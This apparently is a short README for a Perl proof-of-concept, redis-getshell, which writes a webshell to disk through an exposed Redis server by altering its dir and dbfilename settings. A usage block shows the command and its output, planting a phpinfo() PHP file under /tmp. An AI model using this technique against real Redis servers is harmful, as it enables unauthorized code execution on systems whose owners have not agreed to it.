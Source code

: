 ## redis-getshell

The script below demonstrates the possibility to dump a webshell through a redis server

## usage

<pre>
%> ./redis-getshell.pl --host 127.0.0.1 --port 6379 --path /tmp/ooo.php
[+] Connection established 127.0.0.1:6379
[+] Receiving old dbfilename value
[+] Receiving old dir value
[+] Alternating configuration
    -> dir /tmp
    -> dbfilename ooo.php
    -> webshell <?php phpinfo (); ?>
[+] Restoring configuration
</pre>
